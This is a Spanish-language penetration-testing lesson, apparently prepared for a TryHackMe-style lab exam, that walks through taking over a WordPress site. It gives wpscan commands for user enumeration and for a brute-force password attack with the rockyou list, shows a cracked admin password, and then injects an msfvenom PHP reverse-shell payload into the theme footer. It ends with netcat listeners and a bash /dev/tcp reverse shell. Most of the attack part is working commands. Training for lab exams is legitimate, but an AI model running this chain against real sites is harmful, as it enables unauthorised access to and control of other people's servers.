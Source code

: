 
---
- TAG: #Auditoría #Seguridad #WordPress 
---

## Parte 2: Uso de `wp-scan` para Enumeración y Ataques de Fuerza Bruta en WordPress

En esta sección, como les había mencionado, vamos a hacer uso de la herramienta `wp-scan`, ya que queremos encontrar usuarios válidos primero y luego realizar un ataque de fuerza bruta para podernos loguear.

### 1. Enumeración de Usuarios y Plugins Vulnerables

Nos dirigimos a nuestra terminal y ejecutamos:

```bash
wpscan --url http://1.2.3.4/blog --enumerate u,vp
```

**Nota:** Al poner la ruta dentro de `wp-scan`, no incluyan `wp-login`, solo la URL base.

- La opción `u` nos permite enumerar a los usuarios.
- La opción `vp` es para encontrar plugins vulnerables.

Una vez terminado el escaneo, veremos que hemos encontrado el usuario `admin` y que no se han detectado plugins vulnerables.

### 2. Ataque de Fuerza Bruta

Ahora, necesitamos encontrar la contraseña mediante fuerza bruta. En clases anteriores vimos cómo realizarlo con `hydra`, pero esta vez utilizaremos `wpscan`, que es más eficiente para entornos WordPress ya que está específicamente diseñada para atacar WordPress.

Ejecutamos un comando similar al anterior, pero esta vez buscamos contraseñas para el usuario:

- `--passwords` nos permite asignar el diccionario para el ataque de fuerza bruta.
- `--usernames` nos permite especificar el usuario encontrado al cual queremos descifrar la contraseña.

```bash
wpscan --url http://1.2.3.4/blog --passwords /usr/share/wordlists/rockyou.txt --usernames admin
```

Esperamos unos segundos y veremos un resultado similar a este:

```python
[!] Valid Combinations Found:
 | Username: admin, Password: my2boys
```

Nos logueamos en la página de login, seleccionamos la opción "recordar" y entramos al panel interno de WordPress.

### 3. Inyección de Código Malicioso

En el examen les pedirán realizar algo similar. Una vez que estén dentro del panel, necesitarán acceder a la máquina. Nuestro objetivo en este punto será subir un código malicioso dentro de WordPress. Esto se puede hacer editando una plantilla o página web dentro de WordPress para añadir un código malicioso en `.php`. Como en el examen no tendremos acceso a internet, aquí tenemos dos opciones:

1. Crear archivos maliciosos con `msfvenom`.
2. Editar directamente los archivos en WordPress.

Debemos dirigirnos al apartado `appearance`. Si vemos un panel que dice `upload-file`, es mejor ir allí, pero si no, vamos directamente a `appearance` > `Theme editor`.

Aquí, nuestra intención es inyectar un código malicioso en `.php` para obtener ejecución remota de comandos. Al lado derecho, veremos diferentes plantillas; recomiendo buscar el apartado llamado `Theme Footer`, que corresponde al pie de página principal en WordPress.

Si al abrir el archivo aparece código, bórrenlo todo hasta dejar la página vacía. Luego, pegamos el payload creado con `msfvenom`. Aunque no nos permite subir el archivo `.php`, sí podemos copiar y pegar el contenido en el apartado de `Theme Footer`.

### 4. Creación y Ejecución del Payload

1. Creamos un archivo malicioso `.php` con el siguiente comando:

    ```bash
    msfvenom -p php/reverse_php LHOST=1.2.3.4 LPORT=443 -f raw > pwned.php
    ```

    **Nota:** Especificamos la IP de nuestra máquina atacante y el puerto por donde vamos a estar en escucha.

2. Una vez creado el archivo, ejecutamos `cat` para visualizar su contenido:

    ```bash
    cat pwned.php
    ```

    Luego, copiamos el contenido y lo pegamos en el apartado de `Theme Footer`, y guardamos los cambios.

3. Nos ponemos a la escucha con netcat en el puerto 443:

    ```bash
    nc -nlvp 443
    ```

4. Ahora, nos dirigimos a la página principal del blog (`http://1.2.3.4/blog`). Recuerden que el `Footer` es la página principal en WordPress. Al recargar la página, regresamos a nuestra terminal y veremos que hemos ganado acceso remoto a la máquina víctima.

### 5. Establecer una Nueva Conexión

Recuerden que es importante establecer una nueva conexión para no perder acceso. Nos ponemos a la escucha por el puerto 444:

```bash
nc -nlvp 444
```

Luego, desde la conexión en el puerto 443, creamos una nueva sesión utilizando `revshells.com`:

```bash
bash -c "sh -i >& /dev/tcp/1.2.3.4/444 0>&1"
```

**Importante:** En este comando, reemplacen la dirección IP por la que les otorga la VPN de **TryHackMe**. Si no reciben la conexión, intenten cerrar todos los procesos revisando con `lsof -i :(puerto)` y terminándolos con `kill -9 ID`. Si siguen teniendo problemas, intenten recibir la sesión en otro puerto. ¡Estas cosas pasan!

---


